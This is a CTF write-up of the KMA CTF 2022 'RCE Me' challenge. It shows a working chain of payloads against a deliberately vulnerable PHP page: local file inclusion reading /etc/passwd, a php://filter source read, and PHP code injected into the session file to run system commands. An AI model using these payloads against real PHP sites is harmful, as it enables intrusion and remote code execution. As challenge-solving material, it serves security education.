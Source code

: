 KMA CTF 2022 - RCE Me

**hint**: I am using php-fpm alpine docker

**Vulnerable to LFI**: `http://rce-me.ctf.actvn.edu.vn/?l=/etc/passwd`
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin utmp:x:100:406:utmp:/home/utmp:/bin/false
```

Let's try to read source code using `php wrapper`: `http://rce-me.ctf.actvn.edu.vn/?l=php://filter/convert.base64-encode/resource=index.php`
```php
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

The idea very is very clear, if we can read php session file, we can using `name parameter` to inject PHP code to session file to get RCE:

**PHP session file location**: Just google it, stack overflow,.. try everything... haizz!!

First check the value of `session.save_path` using `ini_get('session.save_path')` or `phpinfo()`. If that is non-empty, then it will show where the session files are saved. In many scenarios `it is empty by default`, in which case read on:
On `Ubuntu or Debian` machines, if `session.save_path is not set`, then session files are saved in `/var/lib/php5`.

On `RHEL and CentOS` systems, if `session.save_path is not set`, session files will be saved in `/var/lib/php/session`

I think that if you `compile PHP from source`, then when `session.save_path is not set`, session files will be saved in `/tmp`.

And yes, your php session location is: 
```
/tmp/_sess[YOUR-PHP-SESSION-ID]
```

**Try**: `http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1`
```html
name|N;
```

`http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1&name=<?php system('id'); ?>`
```html
name|s:22:"uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data) ";
```

Do some simple rce, we found file contain the flag: `flag_KMACTF_hihi_do_anh_bat_duoc_em.txt`

**flag**: `KMACTF{Do_anh_session_duoc_em_hihi}` 
